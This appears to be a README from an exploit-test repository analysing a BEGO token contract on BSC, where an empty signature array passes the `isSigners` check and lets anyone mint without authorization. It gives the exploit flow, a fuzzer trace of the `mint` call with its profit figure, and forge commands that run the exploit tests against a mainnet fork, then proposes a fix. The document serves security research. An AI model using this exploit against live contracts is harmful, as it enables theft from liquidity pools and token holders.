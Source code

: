 # BEGO Token Vulnerability Analysis

## Overview

The BEGO token (0xc342774492b54ce5F8ac662113ED702Fc1b34972) on BSC has a critical vulnerability in its signature validation logic that allows anyone to mint unlimited tokens without authorization.

## Vulnerability Details

### Root Cause

The vulnerability exists in the `isSigners` function:

```solidity
function isSigners(address[] memory _signers) public view returns (bool){
    for (uint8 i = 0; i < _signers.length; i++) {
        if (!_containsSigner(_signers[i])) {
            return false;
        }
    }
    return true;  // Returns true for empty array!
}
```

When an empty array is passed, the loop doesn't execute and the function returns `true`, bypassing all signature validation.

### Exploit Flow

1. Call `mint()` with empty signature arrays (r=[], s=[], v=[])
2. The `isSigned` modifier calls `isSigners()` with an empty array
3. `isSigners([])` returns `true` (vulnerability)
4. Tokens are minted without any valid signatures

## Fuzzer Discovery

ItyFuzz discovered this vulnerability and found the optimal exploit:

```
[Sender] 0xe1A425f1AC34A8a441566f93c82dD730639c8510
   ├─[1] 0xc342774492b54ce5F8ac662113ED702Fc1b34972.mint(4951767240.7092 ether, 0x060968186804e803ff86, 0x68Dd4F5AC792eAaa5e36f4f4e0474E0625dc9024, (), (), ())
   └─[1] 0xc342774492b54ce5F8ac662113ED702Fc1b34972.burn(0)
```

- Mint amount: 4,951,767,240 BEGO
- Profit: 12.036 ETH

## Running the Tests

### Basic Exploit Test
```bash
forge test --match-test testExploit -vvv
```

### Maximum Profit Analysis
```bash
forge test --match-test testFindMaxProfit -vvv
```

### Current Block Test
```bash
forge test --match-test testCurrentBlock -vvv
```

## Key Findings

1. **Unlimited Minting**: Anyone can mint any amount of BEGO tokens
2. **No Authorization Required**: Empty signature arrays bypass all checks
3. **Profit Limited by Liquidity**: Maximum profit depends on BEGO/WBNB pool liquidity
4. **Multiple Exploits Possible**: Each unique `txHash` allows a new mint

## Mitigation

The contract should validate that signature arrays are not empty:

```solidity
function isSigners(address[] memory _signers) public view returns (bool){
    require(_signers.length > 0, "Empty signers array");
    // ... rest of validation
}
```

## Impact

- **Severity**: Critical
- **Economic Impact**: Total drainage of liquidity pools
- **Token Holder Impact**: Complete devaluation of BEGO tokens

## Forge Commands

```bash
# Install dependencies
forge install

# Run all tests
forge test --match-path test/BEGO*.sol -vvv

# Run with specific RPC
forge test --match-test testExploit --fork-url https://bsc-dataseed.binance.org/ --fork-block-number 22315679 -vvv
```